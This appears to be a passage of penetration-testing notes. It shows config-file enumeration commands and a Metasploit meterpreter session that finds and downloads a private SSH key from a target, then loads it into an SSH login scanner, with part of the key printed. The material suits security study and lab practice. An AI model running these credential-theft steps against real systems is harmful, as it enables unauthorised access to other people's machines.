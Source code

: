 `$ cat /etc/inetd.conf`

`$ cat /etc/xinetd.d/telnet`

`$ cat /etc/xinetd.d/stelnet`

## 02 - Metasploit

### 2.1 - SSH Keys

```
meterpreter > search -f authorized_keys -d /
No files matching your search were found.
meterpreter > search -f id_rsa -d /
Found 1 result...
=================

Path                             Size (bytes)  Modified (UTC)
----                             ------------  --------------
/backups/supersecretkeys/id_rsa  2590          2020-06-17 23:20:44 -0400

meterpreter > download /backups/supersecretkeys/id_rsa /home/user/.ssh/id_rsa
[*] Downloading: /backups/supersecretkeys/id_rsa -> /home/user/.ssh/id_rsa
[*] Downloaded 2.53 KiB of 2.53 KiB (100.0%): /backups/supersecretkeys/id_rsa -> /home/user/.ssh/id_rsa
[*] download   : /backups/supersecretkeys/id_rsa -> /home/user/.ssh/id_rsa
meterpreter > bg
[*] Backgrounding session 1...
msf6 post(multi/gather/ssh_creds) > use auxiliary/scanner/ssh/ssh_login_pubkey
msf6 auxiliary(scanner/ssh/ssh_login_pubkey) > options

Module options (auxiliary/scanner/ssh/ssh_login_pubkey):

   Name              Current Setting  Required  Description
   ----              ---------------  --------  -----------
   BRUTEFORCE_SPEED  5                yes       How fast to bruteforce, from 0 to 5
   DB_ALL_USERS      false            no        Add all users in the current database to the list
   KEY_PASS                           no        Passphrase for SSH private key(s)
   KEY_PATH                           no        Filename or directory of cleartext private keys. Filenames beginning with a dot, or ending in ".pub
                                                " will be skipped. Duplicate private keys will be ignored.
   PRIVATE_KEY                        no        The string value of the private key that will be used. If you are using MSFConsole, this value shou
                                                ld be set as file:PRIVATE_KEY_PATH. OpenSSH, RSA, DSA, and ECDSA private keys are supported.
   RHOSTS                             yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT             22               yes       The target port
   STOP_ON_SUCCESS   false            yes       Stop guessing when a credential works for a host
   THREADS           1                yes       The number of concurrent threads (max one per host)
   USERNAME                           no        A specific username to authenticate as
   USER_FILE                          no        File containing usernames, one per line
   VERBOSE           true             yes       Whether to print output for all attempts

msf6 auxiliary(scanner/ssh/ssh_login_pubkey) > set private_key file:/home/user/.ssh/id_rsa
private_key => -----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
NhAAAAAwEAAQAAAYEAzSWvqfxeIpTuFmdAFyWDQho0h8ud3g9zSJ32pjosNcTQJe3/kYC4
B5hMlfIXzH5oKn9YRn55O10RYxppZpXFsc4H7pYquD5TLKLmaH7UqBj9X1WjGeZLexx+f2
kPAcxLkXaPNq0q5kjXyygRi34LvOn/wdpux7T3pGYsG1HmFrb6LVkBIB9B10LtJGv1q6vl
..[snip]..
pOLQNytsDeZNlKoCUZHvj7cHKFzkdDAAAAwQDXGF2W/3zgltz4G362qpBL4lEo3UHpxp52
+IaZ4FX2yKA42rggJW7XSwZvtPIErIRDFxgNW/3Rv/pyzEqFK5+jG606XpeufxfvdD/PWw
```